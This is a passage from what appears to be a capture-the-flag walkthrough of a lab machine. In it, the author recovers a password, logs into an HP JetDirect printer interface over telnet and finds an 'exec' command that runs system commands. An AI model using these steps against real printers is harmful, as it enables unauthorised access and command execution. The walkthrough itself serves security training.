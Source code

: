 

I'll use `''.join()` to combine the list of characters back into a
single more readable string. Perhaps the password is
"P@ssw0rd@123!!123".

## Shell as lp

### Authenticated Telnet

I'll try telnet again, this time with the potential password:



    oxdf@hacky$ telnet 10.10.11.107
    Trying 10.10.11.107...
    Connected to 10.10.11.107.
    Escape character is '^]'.

    HP JetDirect

    Password: P@ssw0rd@123!!123

    Please type "?" for HELP
    > 



It worked!

### Execution

The login message says that `?` will show the help. I'll try that:



    > ?

    To Change/Configure Parameters Enter:
    Parameter-name: value <Carriage Return>

    Parameter-name Type of value
    ip: IP-address in dotted notation
    subnet-mask: address in dotted notation (enter 0 for default)
    default-gw: address in dotted notation (enter 0 for default)
    syslog-svr: address in dotted notation (enter 0 for default)
    idle-timeout: seconds in integers
    set-cmnty-name: alpha-numeric string (32 chars max)
    host-name: alpha-numeric string (upper case only, 32 chars max)
    dhcp-config: 0 to disable, 1 to enable
    allow: <ip> [mask] (0 to clear, list to display, 10 max)

    addrawport: <TCP port num> (<TCP port num> 3000-9000)
    deleterawport: <TCP port num>
    listrawport: (No parameter required)

    exec: execute system commands (exec id)
    exit: quit from telnet session
